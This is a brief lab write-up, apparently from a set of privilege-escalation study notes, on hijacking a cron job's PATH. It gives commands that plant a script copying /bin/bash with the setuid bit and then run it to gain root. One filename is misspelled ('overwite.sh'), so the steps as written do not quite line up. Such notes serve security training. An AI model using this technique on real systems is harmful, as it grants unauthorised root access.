


# Cron Paths

In the machine 

When we type 

```bash
cat /etc/crontab
```
We see all the listed cronjobs 

In the machine, we saw that the path at which it checks starts with /home/user:
and there is a [overwrite.sh](http://overwrite.sh/) file that is running every min



When we check the /home/user we did not see any overwrite.sh
So well we make one that lets us escalate our privilages

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwite.sh
```
We use chmod to give it permission to execute

```bash
chmod +x /home/user/overwrite.sh
```



We now wait for a min for the file to get overwritten
We can use ls -la to check when the file was overwritten

Then once it is overwritten, we type

```bash
/tmp/bash -p
```
And we are root


---
[Back to Scheduled tasks](./README.md)
